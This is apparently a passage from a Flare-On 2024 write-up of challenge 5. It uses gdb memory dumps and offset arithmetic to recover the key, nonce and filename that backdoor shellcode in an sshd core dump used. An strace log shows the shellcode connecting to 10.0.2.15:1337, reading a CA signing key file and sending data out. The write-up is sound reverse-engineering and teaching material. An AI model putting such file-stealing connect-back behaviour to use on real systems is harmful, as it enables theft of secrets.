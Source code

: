 Run the python file with dummy inputs and run gdb.
```bash
sudo gdb -ex "set sysroot /home/kali/Desktop/ssh_container" ./test

(gdb) r
(gdb) info proc mappings
(gdb) dump memory dump_file.bin 0x7ffffffde000 0x7ffffffff000	// for stack
```

Search in the dump_file.bin for the dummy inputs and filename
- 32 + 12 bytes input offset: 0x1EE98; filename offset: 0x1EEC8<br />
![img](https://cano32.github.io/assets/img/2024-FlareOn11/flareon2024-5-6.png)
- 4 bytes input offset: 0x20048
![img](https://cano32.github.io/assets/img/2024-FlareOn11/flareon2024-5-7.png)
- 32 + 12 bytes input offset: 0x20098, 0x200E0
![img](https://cano32.github.io/assets/img/2024-FlareOn11/flareon2024-5-8.png)
...
![img](https://cano32.github.io/assets/img/2024-FlareOn11/flareon2024-5-9.png)<br /><br />

On the test.cpp file stack,
- From "aaaaa…test.txt" to "expand 32-byte k" (which also appears in sshd core dump stack)
  - 0x201F0 - 0x1EE98 = 0x1358
  - This is the space between the stack of the main process and the stack in the shellcode.
<br /><br />

Using this information, in sshd core,
- 0x7ffc c660 1f40 - 0x1358 = 0x7ffc c660 0be8<br />
![img](https://cano32.github.io/assets/img/2024-FlareOn11/flareon2024-5-10.png)
  - 0x7ffc c660 0be8: 32 byte data
  - 0x7ffc c660 0c08: 12 byte data
  - 0x7ffc c660 0c15: 4 byte data
  - 0x7ffc c660 0c18: filename /root/certificate_autority_signing_key.txt
<br /><br />

```
8d ec 91 12 eb 76 0e da 7c 7d 87 a4 43 27 1c 35 d9 e0 cb 87 89 93 b4 d9 04 ae f9 34 fa 21 66 d7     // 32 bytes
11 11 11 11 11 11 11 11 11 11 11 11     // 12 bytes
20 00 00 00                             // 4 bytes
2f 72 6f 6f 74 2f 63 65 72 74 69 66 69 63 61 74 65 5f 61 75 74 68 6f 72 69 74 79 5f 73 69 67 6e 69 6e 67 5f 6b 65 79 2e 74 78 74 00      // filename
```
<br />

Using the info from strace without server.py
```bash
getuid()                            	= 0
mmap(NULL, 3990, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7efdcda14000
socket(AF_INET, SOCK_STREAM, IPPROTO_TCP) = 3
connect(3, {sa_family=AF_INET, sin_port=htons(1337), sin_addr=inet_addr("10.0.2.15")}, 16) = -1 ECONNREFUSED (Connection refused)
recvfrom(-111, 0x7ffde85cf288, 32, 0, NULL, NULL) = -1 EBADF (Bad file descriptor)
recvfrom(-111, 0x7ffde85cf2a8, 12, 0, NULL, NULL) = -1 EBADF (Bad file descriptor)
recvfrom(-111, 0x7ffde85d0438, 4, 0, NULL, NULL) = -1 EBADF (Bad file descriptor)
recvfrom(-111, 0x7ffde85cf2b8, 0, 0, NULL, NULL) = -1 EBADF (Bad file descriptor)
open("", O_RDONLY)                  	= -1 ENOENT (No such file or directory)
read(-2, 0x7ffde85cf3b8, 128)       	= -1 EBADF (Bad file descriptor)
sendto(-111, "\6\0\0\0", 4, 0, NULL, 0) = -1 EBADF (Bad file descriptor)
sendto(-111, "yV\253\254O\227", 6, 0, NULL, 0) = -1 EBADF (Bad file descriptor)
```
- recvfrom() reads from the 32 bytes, 12 bytes, 4 bytes data. 
- Lastly it reads the filename at 0x7ffde85cf2b8 and then read() reads 128 bytes at 0x7ffde85cf3b8.
- 0x7ffde85cf3b8 - 0x7ffde85cf2b8 = 0x100
<br /><br />